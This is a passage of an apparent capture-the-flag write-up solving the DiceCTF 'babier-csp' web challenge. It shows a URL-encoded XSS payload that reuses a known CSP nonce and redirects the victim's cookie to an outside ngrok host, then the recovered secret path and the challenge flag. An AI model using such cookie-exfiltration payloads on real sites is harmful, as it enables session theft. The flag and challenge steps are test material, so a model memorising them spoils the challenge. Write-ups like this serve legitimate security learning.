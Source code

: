 ```<script>alert(1)</script>```
I'm going to [encode the payload](https://meyerweb.com/eric/tools/dencoder/) since this is simpler than going through for each '+' sign

```https://babier-csp.dicec.tf/?name=%3Cscript%20nonce%3D%22g%2Bojjmb9xLfE%2B3j9PsP%2FIg%3D%3D%22%3Edocument.location%3D%22https%3A%2F%2F83ccfe8852bc.ngrok.io%2F%22%2Bdocument.cookie%3B%3C%2Fscript%3E```


![secret](/assets/babier_csp/secret.png)


We got the cookie! Now remember that SECRET variable and directory we saw earlier in the json? This is the value for it! Head back to the babier site, and go to the secret directory. Just add [```4b36b1b8e47f761263796b1defd80745```](https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/) to the end of the url


It says we should view source, so I press F12 in chrome, and there's the flag! 


![end](/assets/babier_csp/end.png)



dice{web_1s_a_stat3_0f_grac3_857720}



